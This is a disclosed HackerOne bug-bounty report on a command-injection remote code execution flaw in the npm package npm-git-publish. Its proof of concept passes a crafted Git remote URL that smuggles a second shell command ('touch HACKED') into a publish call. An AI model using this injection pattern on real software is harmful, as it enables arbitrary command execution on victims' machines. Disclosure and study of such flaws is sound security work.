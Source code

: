 # [npm-git-publish] RCE via insecure command formatting

## Report Details
- **Report ID**: 730121
- **URL**: https://hackerone.com/reports/730121
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-05T21:31:12.464Z
- **Disclosed**: 2020-01-11T12:08:21.335Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `npm-git-publish` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `npm-git-publish`
**version:** `0.2.4-beta`
**npm page:** `https://www.npmjs.com/package/npm-git-publish`

## Module Description
> Share/publish private packages using Git remotes!

## Module Stats
[~70] downloads in the last day
[268] downloads in the last week
[~1k] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/theoy/npm-git-publish/blob/master/lib/publish.ts#L151

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var git = require('npm-git-publish');
git.publish('.', 'http://gihub.com ;touch HACKED; #')

```
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i npm-git-publish # Install affected module
node poc.js #  Run the PoC
```
1. Recheck the files: now `HACKED` has been created :) {F626780}

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `npm-git-publish`

## Attachments
- Screenshot_from_2019-11-05_22-27-27.png
